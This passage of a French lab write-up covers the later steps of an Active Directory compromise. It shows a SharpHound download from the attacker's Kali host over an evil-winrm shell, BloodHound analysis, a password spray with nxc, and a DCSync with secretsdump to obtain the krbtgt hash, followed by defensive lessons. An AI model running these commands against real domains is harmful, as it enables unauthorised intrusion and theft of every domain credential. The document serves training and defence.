Sans autre piste de privesc locale et avec un point d'ancrage confirmé, l'étape standard suivante dans une évaluation AD est de cartographier les **relations** du domaine — appartenances aux groupes, ACL, sessions, paramètres de délégation — plutôt que de deviner. BloodHound ingère ces données et les modélise sous forme de graphe, permettant d'interroger tout chemin depuis notre principal actuel (`ATHENA_SVC`) vers une cible à haute valeur (Domain Admins, droits DCSync, etc.) par parcours de graphe plutôt que par recoupement manuel.

SharpHound est le collecteur officiel (binaire .NET) exécuté **depuis une session jointe au domaine** — ici, depuis notre shell WinRM sur DC01 lui-même, qui par définition a une visibilité complète sur le domaine.

```powershell
# Depuis le shell evil-winrm
iwr -uri http://<IP_KALI>:8000/SharpHound.exe -outfile C:\Users\ATHENA_SVC\SharpHound.exe
.\SharpHound.exe -c All -d dry.martini.bars
download 20261019140556_BloodHound.zip
```

Le fichier `.zip` résultant a été importé dans BloodHound Community Edition (auto-hébergé via `bloodhound-cli`) via **Download Collectors → Upload Files**.

**Constat :** collecte réussie — 6 utilisateurs, ordinateurs, groupes, GPO et OU importés dans le graphe.


---

## 11. Analyse des Chemins d'Attaque

### Théorie
Une fois le graphe peuplé, la première requête dans toute évaluation pilotée par BloodHound est : *« depuis mon principal actuel, existe-t-il un chemin ACL/appartenance direct vers Domain Admins ou vers des droits DCSync ? »* Cela se vérifie via l'onglet Pathfinding (source = notre principal compromis, destination = le domaine ou le groupe Domain Admins).

**Requête :** Pathfinding de `ATHENA_SVC@DRY.MARTINI.BARS` → `DRY.MARTINI.BARS`

**Résultat :** la seule relation trouvée était `ATHENA_SVC —[CanPSRemote]→ DC01`, qui ne fait que reformuler l'accès WinRM déjà obtenu. **Aucun chemin d'escalade basé sur les ACL** (GenericAll, WriteDacl, ForceChangePassword, AddMember, etc.) n'existe depuis `ATHENA_SVC` vers Domain Admins ou tout principal capable de DCSync.



**Constat :** l'escalade de privilèges par le graphe est une impasse depuis ce compte. C'est un constat important et honnête à documenter — BloodHound ne livre pas toujours un chemin ; quand ce n'est pas le cas, la méthodologie doit se replier sur des techniques basées sur les credentials.

---

## 12. Test de Réutilisation de Credentials (Password Spraying)

### Théorie — pourquoi cette étape, et pourquoi BloodHound ne peut pas la révéler
La réutilisation de mot de passe entre comptes est une **habitude opérationnelle**, pas une relation structurelle de l'AD — elle n'existe que dans l'esprit de la personne ayant défini les mots de passe. Elle ne laisse aucune trace dans les attributs LDAP, les appartenances aux groupes ou les ACL, donc **aucun outil de graphe ne peut la détecter**. La seule façon de la découvrir est de tester activement le credential en main contre tous les autres comptes connus.

C'est la méthodologie standard une fois les chemins basés sur les ACL épuisés : prendre n'importe quel credential valide et le pulvériser (« spray ») contre la liste complète des utilisateurs rassemblée à l'étape 5, plutôt que de deviner au hasard. Le préfixe commun « athena » entre `ATHENA_SVC` et `athena.t0` a fait de ce dernier un candidat prioritaire, mais le spray a été lancé contre la liste complète, pas seulement contre cette seule supposition.

```bash
nxc smb 10.1.123.189 -u users.txt -p '[REDACTED]' --continue-on-success
```

**Résultat :**
```
SMB   10.1.123.189 445 DC01 [+] DRY.MARTINI.BARS\athena.t0:[REDACTED] (Pwn3d!)
SMB   10.1.123.189 445 DC01 [-] DRY.MARTINI.BARS\Administrator:[REDACTED] STATUS_LOGON_FAILURE
SMB   10.1.123.189 445 DC01 [-] DRY.MARTINI.BARS\mprice:[REDACTED] STATUS_LOGON_FAILURE
SMB   10.1.123.189 445 DC01 [-] DRY.MARTINI.BARS\krbtgt:[REDACTED] STATUS_LOGON_FAILURE
```

**Constat :** le mot de passe d'`ATHENA_SVC` est **réutilisé** sur le compte `athena.t0` — et `nxc` le marque `(Pwn3d!)`, signifiant que ce compte a des droits d'administration locale sur DC01. C'est le véritable pivot de la chaîne, et c'est une faille d'hygiène de credentials, pas une mauvaise configuration AD qu'un outil de graphe aurait pu révéler.



---

## 13. Confirmation des Privilèges

```bash
nxc smb DC01.DRY.MARTINI.BARS -u 'athena.t0' -p '[REDACTED]' --shares
```

**Résultat :**
```
SMB 10.1.123.189 445 DC01 [+] DRY.MARTINI.BARS\athena.t0:[REDACTED] (Pwn3d!)
SMB 10.1.123.189 445 DC01 Share    Permissions  Remark
SMB 10.1.123.189 445 DC01 ADMIN$   READ,WRITE   Remote Admin
SMB 10.1.123.189 445 DC01 C$       READ,WRITE   Default share
```

**Constat :** l'accès complet en lecture/écriture à `ADMIN$` et `C$` confirme les droits Administrateur local sur le Contrôleur de Domaine pour `athena.t0`. Sur un DC, Administrateur local **équivaut** à Domain Admin — ce compte peut lire la base de secrets du domaine.



---

## 14. Extraction des Secrets du Domaine (DCSync)

### Théorie — ce que fait secretsdump ici
`secretsdump.py` dispose de plusieurs modes d'extraction. Contre un Contrôleur de Domaine avec un compte privilégié, il utilise par défaut la **méthode DRSUAPI**, qui effectue un **DCSync** : il se fait passer pour un autre contrôleur de domaine et demande au DC cible de *répliquer* ses secrets d'annuaire — incluant le hash NTLM et les clés Kerberos de chaque compte, et surtout la clé secrète du compte `krbtgt`. Cela nécessite les droits étendus `Replicating Directory Changes` et `Replicating Directory Changes All`, que les Administrateurs locaux / Domain Admins sur un DC possèdent implicitement. Aucune exécution de code sur le DC n'est nécessaire ; il s'agit d'un appel RPC de réplication AD légitime (ici détourné).

La clé du compte `krbtgt` est ce que le KDC utilise pour signer **tous** les TGT Kerberos émis dans le domaine — c'est exactement le secret que le lab nous demandait de récupérer, et c'est aussi la clé nécessaire pour forger des « Golden Tickets » lors d'un engagement réel.

```bash
impacket-secretsdump dry.martini.bars/athena.t0:'[REDACTED]'@10.1.123.189
```

**Résultat (expurgé) :**
```
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:[REDACTED]:[REDACTED]:::
Guest:501:[REDACTED]:[REDACTED]:::
krbtgt:502:[REDACTED]:[REDACTED]:::
DRY.MARTINI.BARS\mprice:1104:[REDACTED]:[REDACTED]:::
DRY.MARTINI.BARS\athena.t0:1105:[REDACTED]:[REDACTED]:::
DRY.MARTINI.BARS\ATHENA_SVC:1106:[REDACTED]:[REDACTED]:::
DC01$:1000:[REDACTED]:[REDACTED]:::
```

**Constat — Hash NT du KRBTGT :** `[REDACTED]`



---

## Leçons Clés

- **L'accès SMB non authentifié/Guest reste courant** dans les environnements mal configurés — toujours tester les sessions NULL et Guest sur chaque partage découvert avant de supposer que des identifiants sont requis.
- **Ne jamais stocker de credentials en clair sur un partage réseau**, même un partage de « notes internes ». Cette seule note a constitué tout le point d'ancrage initial de la chaîne.
- **Le Kerberoasting ne nécessite aucun privilège particulier** — n'importe quel utilisateur du domaine peut demander un TGS pour n'importe quel SPN. Les comptes de service avec SPN doivent utiliser des mots de passe longs, aléatoires, non présents dans un dictionnaire (idéalement des Group Managed Service Accounts, qui tournent automatiquement).
- **BloodHound modélise les relations structurelles de l'AD, pas les habitudes opérationnelles.** Il ne révélera jamais une réutilisation de mot de passe, car cette information n'existe dans aucun attribut LDAP ni aucune ACL. Quand l'analyse de graphe atteint une impasse, se replier sur un spray de credentials contre la liste complète des utilisateurs énumérés est la bonne étape méthodologique suivante — pas un coup de chance.
- **Les conventions de nommage sont une heuristique de ciblage, pas une preuve.** Le préfixe commun entre `ATHENA_SVC` et `athena.t0` a justifié de tester ce compte en priorité lors du spray, mais le spray a tout de même été lancé contre la liste complète des utilisateurs plutôt que de se fier à une seule supposition.
- **Administrateur local sur un Contrôleur de Domaine équivaut à Domain Admin.** Une fois ce point d'ancrage sur `athena.t0` confirmé, le DCSync via `secretsdump` donnait un accès direct à tous les secrets du domaine, y compris `krbtgt`.
- **Le hash `krbtgt` est le secret le plus sensible d'un domaine AD** — il permet la forge de golden tickets et une persistance à l'échelle du domaine. Le protéger (et le faire tourner deux fois après toute compromission suspectée) est une priorité absolue en réponse à incident.

---

## Outils Utilisés

| Outil | Rôle |
|---|---|
| `nmap` | Scan de ports et détection des services/versions |
| `netexec` (`nxc`) | Test d'authentification SMB/LDAP/WinRM, énumération des utilisateurs, spray de credentials |
| `enum4linux-ng` | Énumération non authentifiée des partages SMB |
| `smbclient` | Accès manuel et interactif aux partages SMB (session Guest) |
| `impacket-GetUserSPNs` | Kerberoasting — énumération des SPN et extraction des TGS |
| `hashcat` | Crack hors ligne du hash Kerberos TGS-REP (mode 13100) |
| `evil-winrm` | Shell PowerShell interactif via WinRM |
| `SharpHound` | Collecte de données Active Directory pour BloodHound |
| `BloodHound CE` (`bloodhound-cli`) | Analyse du graphe des chemins d'attaque AD |
| `impacket-secretsdump` | DCSync — extraction des secrets du domaine / KRBTGT |

---

## Références

- [MITRE ATT&CK T1558.003 — Kerberoasting](https://attack.mitre.org/techniques/T1558/003/)
- [MITRE ATT&CK T1003.006 — DCSync](https://attack.mitre.org/techniques/T1003/006/)
- [Impacket — GitHub Fortra](https://github.com/fortra/impacket)
- [NetExec (nxc) — GitHub](https://github.com/Pennyw0rth/NetExec)
- [BloodHound Community Edition — SpecterOps](https://github.com/SpecterOps/BloodHound)
- [Collecteur SharpHound — SpecterOps](https://github.com/SpecterOps/SharpHound)
- [Hashcat — Kerberos 5 TGS-REP etype 23 (mode 13100)](https://hashcat.net/wiki/doku.php?id=example_hashes)
- [Microsoft Learn — Vue d'ensemble du compte KRBTGT](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview)
